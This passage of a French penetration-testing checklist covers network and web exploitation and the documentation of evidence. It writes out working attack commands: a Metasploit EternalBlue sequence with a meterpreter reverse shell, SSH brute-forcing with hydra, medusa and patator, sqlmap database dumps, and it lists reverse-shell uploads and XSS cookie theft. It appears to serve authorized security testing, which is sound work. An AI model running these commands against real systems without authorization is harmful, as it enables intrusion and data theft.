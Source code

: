 ### **5.2 Exploitation Réseau**
```bash
☐ Metasploit exploitation :
    ☐ msfconsole
    ☐ search MS17-010
    ☐ use exploit/windows/smb/ms17_010_eternalblue
    ☐ set RHOSTS IP_TARGET
    ☐ set payload windows/x64/meterpreter/reverse_tcp
    ☐ exploit
☐ Exploitation manuelle :
    ☐ Scripts exploit personnalisés
    ☐ Public exploits adaptés
    ☐ Buffer overflow si applicable
☐ Bruteforce authentification :
    ☐ hydra -l admin -P passwords.txt IP_TARGET ssh
    ☐ medusa -h IP_TARGET -u admin -P passwords.txt -M ssh
    ☐ patator ssh_login host=IP_TARGET user=admin password=FILE0 0=passwords.txt
```

### **5.3 Exploitation Web**
```bash
☐ SQL Injection exploitation :
    ☐ sqlmap -u "URL" --dbs --batch
    ☐ sqlmap -u "URL" -D database --tables
    ☐ sqlmap -u "URL" -D database -T users --dump
☐ File Upload attacks :
    ☐ Upload reverse shell (PHP, ASP, JSP)
    ☐ Bypass file type restrictions
    ☐ Path traversal exploitation
☐ Command Injection :
    ☐ Tests paramètres avec ; | & $(command)
    ☐ Reverse shell via command injection
☐ XSS exploitation :
    ☐ Session hijacking (cookie stealing)
    ☐ Phishing attacks
    ☐ Administrative interface access
```

### **5.4 Documentation Exploitation**
```bash
☐ Screenshots exploitation pris :
    ☐ Avant exploitation (état normal)
    ☐ Pendant exploitation (preuve PoC)
    ☐ Après exploitation (accès obtenu)
☐ Commandes utilisées documentées
☐ Outputs complets sauvegardés
☐ Temps d'exploitation noté
☐ Impact business évalué et documenté
```

---
